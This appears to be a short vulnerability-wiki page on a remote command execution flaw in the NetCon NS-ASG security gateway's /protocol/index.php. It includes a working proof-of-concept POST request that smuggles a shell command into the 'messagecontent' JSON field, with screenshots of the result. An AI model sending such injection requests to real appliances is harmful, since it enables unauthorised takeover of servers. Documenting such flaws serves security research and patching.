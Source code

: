 #NetCon NS-ASG Security Gateway index.php remote command execution vulnerability

## Vulnerability Description

The NS-ASG security gateway index.php file has a remote command execution vulnerability. The attacker can obtain server permissions by constructing a special request package.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Network NS-ASG Security Gateway</span>

## Network surveying and mapping



## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1660545594828-6a216122-73d2-4dd4-91d3-8f91dfd9d903-20230311202627447.png)

The vulnerable file is /protocol/index.php, and the source code can be obtained by reading the file.

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1660545902675-0586f8f2-d3c8-4dbe-816e-821013ba8e83-20230311202624155.png)

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1660546891442-cd318722-bd7d-474f-8e6b-17dfb7ded9de-20230311202624159.png)

Execute commands by constructing request packages

```php
POST /protocol/index.php
  
jsoncontent={"protocolType":"getsysdatetime","messagecontent":"1;id>1.txt;"}
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1660547107247-ca9ae305-a265-4ad1-978b-a344384d8c9c-20230311202623936.png)

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1660547143958-774e5dad-e5f1-4277-bb12-36653c843adf-20230311202623607.png)